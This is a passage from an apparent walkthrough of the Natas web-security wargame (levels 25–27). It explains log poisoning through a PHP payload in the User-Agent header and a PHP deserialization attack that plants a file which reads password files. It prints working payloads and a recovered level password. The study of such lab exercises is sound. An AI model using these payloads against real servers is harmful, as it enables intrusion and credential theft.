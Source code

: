 ```php
User-Agent: <?php echo passthru("cat /etc/natas_webpass/natas26"); ?>
```
By setting the `User-Agent` in our request as this command, we are `command injecting`, practically tricking the server to execute the `cat` command on the password file and include it inside the log it writes. Because we use `'....//'` to see the logs file, the server writes a new log to that file while using the command we injected as `User-Agent`, and we can see the password.

Password: `cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE`

## Level 26 → 27
In this level, we have inputs for 2 points (x, y) and the website draws a line between them. Inside the source code, we can see some interesting things. First, there is a class called `Logger` that writes logs into a file. It uses functions like `__constract()` and `__destruct()`. We can also see this code:
```php

if (array_key_exists("drawing", $_COOKIE)){
    $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
}
```
This is a vulnerability we can use.

### PHP Serialization
`Serialization` is a way to turn complex data (like arrays or objects) into a string, so it can be stored in files, sessions, or cookies — and later be reconstructed using `unserialize()`. To explain the format, we can look at the following example.
```
profile=O:4:"User":1:{s:4:"name";s:5:"admin";}
```
`0` means it's an object, and `4` means the object's name has 4 characters. `"User"` is the name of the object, and `1` means it has one property. Inside `{...}` is the object's property map. `s:4:"name"` - `s` means the property is a `string`, it's name has `4` characters and it's name is `"name"`. `s:5:"admin"` - the value is a `string` of `5` characters - `"admin"`.

### PHP Deserializiation Attack
A `PHP deserialization attack` happens when an application takes user-controlled input and passes it into `PHP`’s `unserialize()` function. This can be dangerous, because serialized data can contain PHP objects, and when they're deserialized, their `magic methods` (like `__wakeup()`, `__destruct()`, or `__toString()`) can be triggered — potentially running malicious code or causing logic flaws. If the application has classes that do interesting things in those `magic methods` (like writing to files, deleting files, executing commands), an attacker can craft a fake serialized object and trigger those behaviors without permission. We should never use `unserialize()` on user inputs, it is safer to use `json_encode()` and `json_decode()` instead.

From the code and explanations above, to use this vulnerability we have to construct a malicious object that overrrides the `Logger` class `__contruct()` method, serialize (and also `base64_encode`) it, and pass it in the `drawing` attribute inside our cookie. Then a log file will be created and we will be able to access the password through it. In order to do so, we make the following file:
```php
<?php
class Logger{
	private $logFile;
	private $exitMsg;

	function __construct(){
		$this->logFile = "./img/filename.php";
		$this->exitMsg = "<?php echo passthru('cat /etc/natas_webpass/natas27') ?>";
	}
}

$logger = new Logger();
echo base64_encode(serialize($logger))
?>
```
